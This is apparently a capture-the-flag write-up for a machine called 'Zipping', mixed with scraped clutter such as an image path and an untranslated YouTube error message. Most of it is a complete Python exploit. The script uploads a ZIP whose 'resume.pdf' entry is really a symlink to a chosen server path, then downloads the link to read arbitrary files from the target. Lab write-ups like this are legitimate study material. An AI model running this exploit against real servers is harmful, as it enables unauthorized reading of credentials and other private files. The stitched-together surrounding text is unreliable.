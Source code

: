     ea9a4d59************************



#### Script

I'd like to make a script to make reading files from Zipping easier.
I'll walk through that in [this
video](https://www.youtube.com/watch?v=NPlkZVm-C7M):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=NPlkZVm-C7M){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final code is:



    #!/usr/bin/env python3
    import io
    import re
    import sys
    import zipfile
    import requests
    from datetime import datetime

    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <host> <target file path>")
        sys.exit()

    host = sys.argv[1]
    filepath = sys.argv[2]

    zip_buffer = io.BytesIO()

    with zipfile.ZipFile(zip_buffer, "w") as zip_file:
        zipInfo = zipfile.ZipInfo('resume.pdf')
        zipInfo.create_system = 3
        zipInfo.external_attr |= 0xA0000000
        zipInfo.date_time = datetime.now().timetuple()[:6]
        zip_file.writestr(zipInfo, filepath)

    files = ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})
    resp = requests.post(f'http://{host}/upload.php',
                  files={"zipFile": ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})},
                  data={"submit": ""}
                  )

    (url, ) = re.findall(r'path:</p><a href="(.*)">\1</a>', resp.text)

    resp = requests.get(f'http://{host}/{url}')
    sys.stdout.buffer.write(resp.content)



And it works (for both text and binaries):

